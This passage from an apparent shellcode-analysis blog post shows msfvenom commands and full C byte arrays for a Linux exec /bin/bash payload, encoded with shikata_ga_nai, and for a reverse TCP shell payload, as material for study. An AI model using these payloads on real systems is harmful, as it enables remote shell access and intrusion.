 
![exec]({{ "/assets/media/exec.png" | absolute_url }})


As a bonus, lets see what happens when we try to avoid NULLs.

```
msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -b '\x00' -f c
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 72 (iteration=0)
x86/shikata_ga_nai chosen with final size 72
Payload size: 72 bytes
Final size of c file: 327 bytes
unsigned char buf[] = 
"\xbf\xd1\xf0\xac\xf4\xdb\xc1\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x0c\x83\xea\xfc\x31\x7a\x0f\x03\x7a\xde\x12\x59\x9e\xeb\x8a"
"\x3b\x0d\x8d\x42\x11\xd1\xd8\x74\x01\x3a\xa9\x12\xd2\x2c\x62"
"\x81\xbb\xc2\xf5\xa6\x6e\xf3\x0f\x29\x8f\x03\x20\x4b\xe6\x6d"
"\x11\xe9\x99\x02\x05\xed\x0e\xb6\x5c\x0c\x7d\xb8";
```

![exec_no_nulls]({{ "/assets/media/exec_no_null.png" | absolute_url }})

Wow, not exactly what I was expecting. But looking the output more carefully:

     Attempting to encode payload with 1 iterations of x86/shikata_ga_nai

In order to avoid NULL bytes, msfvenom picks an encoder. In this case the infamous `shikata_ga_nai`. So I decided do my homework and check how this encoder works. Despite its frequent use, I could not find so many sources explaining the algorithm. But to not turn this post into a book I made another one dedicated to this subject.

You can find [my shikata_ga_nai analysis here](https://marcosvalle.github.io/re/exploit/2018/08/25/shikata-ga-nai.html)

### linux/x86/shell_reverse_tcp
I have also used the reverse_tcp shellcode when preparing [Assignment#2](https://marcosvalle.github.io/re/exploit/2018/08/20/reverse-shell-tcp.html) and was actually wondering how it works. 

```
msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp -f c
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

![shell_reverse_tcp]({{ "/assets/media/shell_reverse_tcp.png" | absolute_url }})

